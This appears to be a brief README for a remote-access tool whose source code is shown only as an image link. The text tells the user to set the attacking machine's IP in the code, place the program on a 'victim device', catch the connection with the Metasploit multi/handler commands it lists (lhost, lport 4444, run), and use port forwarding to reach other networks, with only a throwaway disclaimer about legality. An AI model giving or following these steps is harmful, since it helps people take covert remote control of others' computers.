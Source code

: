 Remember to import all modules and change the attacking machines ip in the code before putting it on the victim device.

also no illegal shit
also forgot to mention you can connect using meterpreter run the following commands once you opened it in kali:

use exploit/multi/handler

set lhost (your attacking devices local ip goes here, without any brackets)

set lport 4444

run


also this only runs on local networks, though it can be done through different networks if you make uses of things such as port fowarding
